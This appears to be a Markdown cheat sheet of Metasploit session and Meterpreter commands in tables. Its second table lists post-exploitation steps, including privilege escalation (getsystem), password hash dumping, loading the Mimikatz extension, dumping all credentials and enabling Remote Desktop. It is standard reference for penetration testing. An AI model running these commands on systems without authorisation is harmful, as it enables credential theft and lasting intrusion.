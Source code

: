 ### Session Management

#### Session Commands
| Command | Description | Example |
|---------|-------------|---------|
| `sessions` | List all active sessions | `sessions` |
| `sessions -i <ID>` | Interact with specific session | `sessions -i 1` |
| `sessions -k <ID>` | Terminate specific session | `sessions -k 1` |
| `sessions -K` | Kill all sessions | `sessions -K` |
| `sessions -u <ID>` | Upgrade shell to meterpreter | `sessions -u 1` |
| `sessions -c <cmd>` | Execute command on session | `sessions -c "whoami" 1` |
| `background` | Send current session to background | `background` |
| `jobs -l` | List background jobs | `jobs -l` |
| `jobs -k <ID>` | Kill specific background job | `jobs -k 1` |
| `jobs -K` | Kill all jobs | `jobs -K` |

### Meterpreter Commands

#### System Information and Control
| Command | Description | Example |
|---------|-------------|---------|
| `sysinfo` | Display system information | `sysinfo` |
| `getuid` | Show current user identity | `getuid` |
| `getpid` | Display current process ID | `getpid` |
| `getprivs` | Show current privileges | `getprivs` |
| `ps` | List running processes | `ps` |
| `kill <PID>` | Terminate process by ID | `kill 1234` |
| `shell` | Access system shell | `shell` |
| `getsystem` | Attempt privilege escalation | `getsystem` |
| `hashdump` | Dump password hashes | `hashdump` |
| `run post/windows/gather/hashdump` | Alternative hash dumping | `run post/windows/gather/hashdump` |
| `load kiwi` | Load Mimikatz extension | `load kiwi` |
| `creds_all` | Dump all credentials (Kiwi) | `creds_all` |
| `run post/windows/manage/enable_rdp` | Enable Remote Desktop | `run post/windows/manage/enable_rdp` |
